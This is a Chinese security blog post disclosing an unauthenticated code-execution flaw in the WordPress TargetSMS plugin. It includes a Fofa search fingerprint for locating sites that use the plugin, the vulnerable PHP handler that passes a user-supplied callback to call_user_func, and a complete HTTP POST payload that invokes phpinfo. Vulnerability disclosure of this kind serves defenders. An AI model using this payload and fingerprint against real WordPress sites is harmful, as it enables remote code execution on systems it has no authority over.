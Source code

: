#  WordPress TargetSMS 插件存在前台代码执行漏洞   
原创 Mstir  星悦安全   2025-05-08 08:26  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
TargetSMS 验证短信允许您通过向指定的电话号码发送带有确认代码的短信来实施验证。SMS 消息通过服务发送 在注册和/或密码恢复期间启用/禁用验证;指定确认码的长度;指定确认码的有效期;指定注册和/或密码恢复期间的短信文本;  
  
Fofa指纹:  
"wp-content/plugins/verification-sms-targetsms/"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBytvLe9phkQ6luvp8l9iaiaqNicumYFDylMfkBBYicgp65m9iaLtrJZUXzXA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBT9xtd3Zp8hy9TySymo54icyuOJWOz8ibiaeAbjR9mag7YWhL7gtNNTIUw/640?wx_fmt=png&from=appmsg "")  
  
📍 该漏洞由星群漏洞库自动化检索发现   
📍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBs2D24FMOk24PuswdicY86zibuH2KhS2ic4Ovpgg9p4BLBnBNSWvYnAVyg/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
位于 /inc/ajax.php 中，存在call_user_func 函数，且传参callback均可控，action 也存在不需要授权的接口  
   
targetvrHHndler  
，导致代码执行漏洞产生.```
<?php/**  * Региструет функцию для обработки AJAX запросов.*/add_action('wp_ajax_nopriv_targetvrHHndler', 'targetvr_ajax_handler');function targetvr_ajax_handler(){ $callback = targetvr_get_postData('callback', 'string'); if ($callback and function_exists($callback)){  call_user_func($callback); } else {  targetvr_return_json(false); } wp_die();}
```  
  
  
Payload:```
POST /wp-admin/admin-ajax.php HTTP/2Host: 127.0.0.1Content-Length: 39Sec-Ch-Ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "Windows"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36Content-Type: application/x-www-form-urlencodedAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: https://127.0.0.1/wp-admin/admin-ajax.php?cmd=whoamiAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Priority: u=0, iaction=targetvrHHndler&callback=phpinfo
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBNVD6aiaVoK1MFUXhdldDlHUKGvW4cJibFER2ulV5TjqbFViaR0GClMwXQ/640?wx_fmt=png&from=appmsg "")  
  
POC脚本:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBOCLbfQnV0ZNBS2MQicIO6oG6bUP2utWzsGj8sic9u68hflBcIungum7g/640?wx_fmt=png&from=appmsg "")  
## 0x02 脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**POC脚本关注公众号，发送 250508 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
